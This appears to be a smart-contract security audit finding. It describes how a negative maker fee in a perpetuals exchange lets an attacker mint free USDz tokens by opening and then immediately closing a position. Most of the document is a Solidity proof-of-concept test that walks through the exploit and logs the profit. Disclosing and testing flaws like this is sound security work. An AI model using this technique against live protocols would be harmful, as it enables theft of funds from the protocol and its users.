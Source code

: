 **Description:** Attacker can perform a risk-free trade to mint free USDz tokens by opening then quickly closing positions in markets using negative `makerFee`; this is effectively a free mint exploit dressed up as a risk-free "trade".

**Proof of Concept:** First change `script/markets/BtcUsd.sol` to have a negative `makerFee` like this:
```solidity
-    OrderFees.Data internal btcUsdOrderFees = OrderFees.Data({ makerFee: 0.0004e18, takerFee: 0.0008e18 });
+    OrderFees.Data internal btcUsdOrderFees = OrderFees.Data({ makerFee: -0.0004e18, takerFee: 0.0008e18 });
```

Then add PoC to `test/integration/perpetuals/order-branch/createMarketOrder/createMarketOrder.t.sol`:
```solidity
// new import at the top
import {console} from "forge-std/console.sol";

function test_AttackerMintsFreeUSDzOpenThenQuicklyClosePositionMarketNegMakerFee() external {
    // In a market with a negative maker fee, an attacker can perform
    // a risk-free "trade" by opening then quickly closing a position.
    // This allows attackers to mint free USDz without
    // any risk; it is essentially a free mint exploit dressed up
    // as a risk-free "trade"

    // give naruto some tokens
    uint256 USER_STARTING_BALANCE = 100_000e18;
    int128  USER_POS_SIZE_DELTA   = 10e18;
    deal({ token: address(usdToken), to: users.naruto, give: USER_STARTING_BALANCE });

    // naruto creates a trading account and deposits their tokens as collateral
    changePrank({ msgSender: users.naruto });
    uint128 tradingAccountId = createAccountAndDeposit(USER_STARTING_BALANCE, address(usdToken));

    // naruto opens position in BTC market
    openManualPosition(BTC_USD_MARKET_ID, BTC_USD_STREAM_ID, MOCK_BTC_USD_PRICE, tradingAccountId, USER_POS_SIZE_DELTA);

    // naruto closes position in BTC market immediately after
    // in practice this would occur one or more blocks after the
    // first order had been filled
    openManualPosition(BTC_USD_MARKET_ID, BTC_USD_STREAM_ID, MOCK_BTC_USD_PRICE, tradingAccountId, -USER_POS_SIZE_DELTA);

    // verify that now naruto has MORE USDz than they started with!
    uint256 traderCollateralBalance = perpsEngine.getAccountMarginCollateralBalance(tradingAccountId, address(usdToken)).intoUint256();
    assert(traderCollateralBalance > USER_STARTING_BALANCE);

    // naruto now withdraws all their collateral
    perpsEngine.withdrawMargin(tradingAccountId, address(usdToken), traderCollateralBalance);

    // verify that naruto has withdrawn more USDz than they deposited
    uint256 traderFinalUsdzBalance = usdToken.balanceOf(users.naruto);
    assert(traderFinalUsdzBalance > USER_STARTING_BALANCE);

    // output the profit
    console.log("Start USDz  : %s", USER_STARTING_BALANCE);
    console.log("Final USDz  : %s", traderFinalUsdzBalance);
    console.log("USDz profit : %s", traderFinalUsdzBalance - USER_STARTING_BALANCE);

    // profit = 796 040000000000000000
    //        = $796
}
```